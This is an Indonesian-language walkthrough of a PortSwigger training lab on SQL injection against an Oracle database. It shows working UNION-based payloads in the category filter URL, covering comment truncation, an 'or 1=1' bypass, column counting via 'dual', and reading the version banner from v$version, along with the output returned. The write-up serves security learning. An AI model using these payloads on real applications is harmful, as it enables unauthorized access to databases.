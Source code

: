 # SQL Injection Attack: Querying the Database Type and Version on Oracle

Lab ini berisi kerentanannya dalam SQL injection pada filter kategori produk. Anda dapat menggunakan serangan UNION untuk mendapatkan hasil dari query yang disuntikkan.

Untuk menyelesaikan lab ini, tampilkan string versi database.

---

### **Pertimbangan Utama: Menanyakan di Oracle**

Di database Oracle, setiap pernyataan `SELECT` harus menyebutkan tabel yang akan di-query. Jika serangan `UNION SELECT` Anda tidak merujuk ke tabel, Anda harus menyertakan kata kunci `FROM` diikuti dengan nama tabel yang valid. Oracle menyediakan tabel bawaan yang disebut `dual` yang dapat digunakan untuk tujuan ini. Misalnya:
```sql
UNION SELECT 'abc' FROM dual
```

---

### **Langkah-langkah Melakukan Serangan**

#### **Langkah 1: Analisis Struktur Query**
Dengan menyuntikkan payload berikut:
```
/filter?category=Gifts'--
```
Aplikasi kemungkinan besar akan menjalankan query seperti ini:
```sql
SELECT description, content 
FROM posts 
WHERE category = 'Gifts';
```
Query ini:
- Mengembalikan dua kolom: `description` dan `content`.

#### **Langkah 2: Tentukan Jumlah Kolom**
Untuk mengetahui jumlah kolom dalam query asli, suntikkan:
```
/filter?category=Gifts'+union+all+select+NULL,NULL+FROM+dual--
```
Jika tidak ada kesalahan, query tersebut memiliki dua kolom.

#### **Langkah 3: Ekstrak Versi Database**
Database Oracle menyimpan informasi versi dalam tabel seperti `v$version` dan `v$instance`. Untuk mengambil string versi:
1. Gunakan tabel `v$version`:
   ```sql
   SELECT banner FROM v$version;
   ```
2. Suntikkan payload berikut:
   ```
   /filter?category=Gifts'+union+all+select+'1',banner+FROM+v$version--
   ```

#### **Langkah 4: Menangani Kesalahan Potensial**
Menggunakan tabel `v$instance` mungkin menghasilkan kesalahan:
```
SELECT version FROM v$instance;
```
Hindari ini jika server menolak query terhadap `v$instance`.

---

### **Payload yang Valid**

#### **Payload Uji Awal**:
- Menampilkan 4 item di kategori "Gifts":
  ```
  /filter?category=Gifts'--
  ```
- Menampilkan semua item dengan bypass:
  ```
  /filter?category=Gifts'+or+1=1--
  ```

#### **Tentukan Jumlah Kolom**:
- Gunakan:
  ```
  /filter?category=Gifts'+union+all+select+NULL,NULL+FROM+dual--
  ```

#### **Ambil Versi Database**:
- Gunakan `v$version`:
  ```
  /filter?category=Gifts'+union+all+select+'1',banner+FROM+v$version--
  ```

---

### **Referensi**

- [Menguji Database Menggunakan SQL Injection](https://portswigger.net/web-security/sql-injection/examining-the-database)
- [SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

---

### **Ilustrasi**

#### **Tampilan Awal (Deskripsi dan Konten)**:
![img](images/SQL%20injection%20attack,%20querying%20the%20database%20type%20and%20version%20on%20Oracle/1.png)

#### **Validasi Jumlah Kolom**:
![img](images/SQL%20injection%20attack,%20querying%20the%20database%20type%20and%20version%20on%20Oracle/2.png)

#### **Mengambil Versi Database**:
Menggunakan payload:
```
/filter?category=Gifts'+union+all+select+'1',banner+FROM+v$version--
```

Query tersebut mengembalikan versi database:
```
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
```

